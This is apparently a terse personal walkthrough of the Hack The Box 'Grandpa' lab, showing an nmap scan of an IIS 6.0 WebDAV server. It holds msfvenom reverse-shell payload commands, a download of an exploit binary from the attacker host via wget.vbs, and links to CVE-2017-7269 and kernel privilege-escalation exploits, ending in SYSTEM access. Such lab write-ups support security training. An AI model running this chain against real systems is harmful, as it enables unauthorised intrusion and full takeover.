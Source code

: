 PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 6.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD COPY PROPFIND SEARCH LOCK UNLOCK DELETE PUT POST MOVE MKCOL PROPPATCH
|_  Potentially risky methods: TRACE COPY PROPFIND SEARCH LOCK UNLOCK DELETE PUT MOVE MKCOL PROPPATCH
|_http-server-header: Microsoft-IIS/6.0
|_http-title: Under Construction
| http-webdav-scan: 
|   Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
|   Server Date: Mon, 25 Jan 2021 12:34:31 GMT
|   WebDAV type: Unknown
|   Allowed Methods: OPTIONS, TRACE, GET, HEAD, COPY, PROPFIND, SEARCH, LOCK, UNLOCK
|_  Server Type: Microsoft-IIS/6.0
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows


![](2021-01-25-13-35-11.png)

![](2021-01-25-13-37-53.png)

msfvenom -p windows/meterpreter/reverse_tcp LHOST=tun0 LPORT=4445 --platform Windows -f asp -o rev.asp 

![](2021-01-25-13-44-07.png)
https://null-byte.wonderhowto.com/how-to/exploit-webdav-server-get-shell-0204718/

kali@kali:~/htb/boxes/grandpa/10.10.10.14$ davtest -url http://10.10.10.14      
********************************************************
 Testing DAV connection                                                        
OPEN            SUCCEED:                http://10.10.10.14
********************************************************
NOTE    Random string for this session: ax91_J1Ggk2
********************************************************
 Creating directory                                                            
MKCOL           FAIL                                                           
********************************************************
 Sending test files                                                            
PUT     aspx    FAIL                                                           
PUT     cgi     FAIL                                                           
PUT     shtml   FAIL                                                           
PUT     pl      FAIL                                                           
PUT     asp     FAIL                                                           
PUT     jsp     FAIL                                                           
PUT     php     FAIL                                                           
PUT     txt     FAIL                                                           
PUT     jhtml   FAIL                                                           
PUT     html    FAIL                                                           
PUT     cfm     FAIL                                                           

********************************************************
/usr/bin/davtest Summary:                   


![](2021-01-25-14-05-31.png)

https://raw.githubusercontent.com/g0rx/iis6-exploit-2017-CVE-2017-7269/master/iis6%20reverse%20shell

![](2021-01-25-14-15-41.png)

C:\Documents and Settings>whoami
whoami
nt authority\network service



 /opt/Windows-Exploit-Suggester/windows-exploit-suggester.py --database /opt/Windows-Exploit-Suggester/2020-12-09-mssb.xls -i sysinfo.txt


 https://github.com/hfiref0x/CVE-2015-1701

https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS09-020


 cscript wget.vbs http://10.10.14.9:9090/IIS6.0.exe

C:\WINDOWS\Temp>iis.exe cmd
iis.exe cmd
Microsoft Windows [Version 5.2.3790]
(C) Copyright 1985-2003 Microsoft Corp.

C:\WINDOWS\Temp>whoami
whoami
-------------------------------------------
kindle-->Got WMI process Pid: 1832 
begin to try
kindle-->Found token SYSTEM 
kindle-->Command:cmd
nt authority\system

msfvenom -p windows/shell/reverse_tcp LHOST=tun0 LPORT=4444 --format exe -o rev.exe